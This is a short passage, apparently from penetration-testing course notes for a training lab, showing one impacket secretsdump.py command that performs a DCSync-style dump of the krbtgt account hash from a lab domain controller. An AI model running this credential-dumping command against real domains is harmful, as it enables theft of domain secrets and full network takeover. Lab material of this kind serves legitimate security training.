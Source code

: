 Used to dump hashes like DCSync.



### Dump specific user
```shell
secretsdump.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 -just-dc-user LOGISTICS/krbtgt
```